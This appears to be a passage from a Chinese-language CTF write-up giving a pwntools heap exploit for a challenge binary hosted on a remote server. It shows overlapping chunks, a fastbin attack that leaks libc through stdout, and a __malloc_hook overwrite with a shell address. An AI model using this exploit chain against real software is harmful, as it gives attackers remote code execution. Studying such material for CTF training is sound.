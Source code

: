```py
else:
    p = remote('47.104.89.129',10004)
    libc = ELF('./libc.so.6')

exp(p)



```

## 解法2(17)

这个exp更舒服一点，比较好理解
```py
    Alloc(p,0x88)#0
    Alloc(p,0x68)#1
    Alloc(p,0xf8)#2
    Alloc(p,0x68)#3


    Delete(p,0)
    Fill(p,1,'a'*0x60+p64(0x100))

    Delete(p,2)
    Delete(p,1)
```
首先分配几个堆块，把第0个free掉，Edit(1)修改chunk2的prev_size和size，再释放chunk2，0-2合并成一个大的unsorted bin。

Delete(1)让chunk1进入fastbin[0x70]，Alloc(0x88)让fastbin的fd和bk被写入main_arena+88。注意此时这个fastbin存在size error，直接从中分配chunk会报错。这时候我们再Free掉刚才的chunk0，再分配一次构造overlapping chunk可以修改fastbin的size为正确的值，从而可以分配fastbin的chunk再部分写泄露libc。

```py
    Alloc(p,0x88)#0
    Delete(p,0)
    #overwrite the size to 0x70
    Alloc(p,0x58)#0
    Alloc(p,0x98)#1
    Fill(p,1,'a'*0x20+p64(0x90)+p64(0x71)+'\xdd\x25\n')
    Alloc(p,0x60)#2
    Alloc(p,0x60)#4 stdout
    Fill(p,4,'\x00'*51+p64(0xfbad1800)+p64(0)*3+'\x00'+'\n')
    p.recvn(0x40)
    libc_bse = u64(p.recv(8)) - 3954176
```

Delete(2)让0x70的块再次进入fastbin，Delete(1)再分配chunk溢出修改fastbin的fd(刚才的套路)，两次分配就可以分配到fake_chunk，继而修改成shell_addr。

最后Malloc触发malloc_hook不好使，这里free(2)和free(5)触发错误调用malloc_hook拿到shell

```py
    Delete(p,2)#into 0x70 fast bins
    Delete(p,1)
    Alloc(p,0x70)#1


    Fill(p,1,'a'*0x20+p64(0x90)+p64(0x71)+p64(fake_chunk)*2+'\n')
    Alloc(p,0x60)#2
    Alloc(p,0x60)#5
    Fill(p,5,'a'*0x13+p64(shell_addr)+'\n')
```
